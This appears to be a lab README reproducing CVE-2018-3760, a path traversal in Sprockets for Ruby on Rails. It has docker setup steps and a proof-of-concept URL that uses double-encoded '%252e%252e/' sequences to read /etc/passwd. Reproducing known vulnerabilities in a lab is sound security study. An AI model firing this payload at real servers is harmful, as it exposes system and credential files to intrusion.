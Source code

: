 # Ruby On Rails Path Traversal Vulnerability（CVE-2018-3760）

[中文版本(Chinese version)](README.zh-cn.md)

Ruby On Rails is a well-known Ruby Web development framework, which uses Sprockets as a static file server in development environment. Sprockets is a Ruby library that compiles and distributes static resource files.

There is a path traversal vulnerability caused by secondary decoding in Sprockets 3.7.1 and lower versions. An attacker can use `%252e%252e/` to access the root directory and read or execute any file on the target server.

Reference links：

- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://seclists.org/oss-sec/2018/q2/210
- https://xz.aliyun.com/t/2542

## Environment setup

Enter the following command：

```
docker-compose up -d
```

Visit `http://your-ip:3000` and you'll see the welcome page.

## POC

It will give an error by visiting `http://your-ip:3000/assets/file:%2f%2f/etc/passwd` directly, as the file `/etc/passwd` is not in the allowed directory.

![](1.png)

We can get a list of allowed directories by the error page. Just select one of them, such as `/usr/src/blog/app/assets/images`, then use `%252e%252e/` to jump to the parent directory, and finally read the file `/etc/passwd`:

```
http://your-ip:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![](2.png)

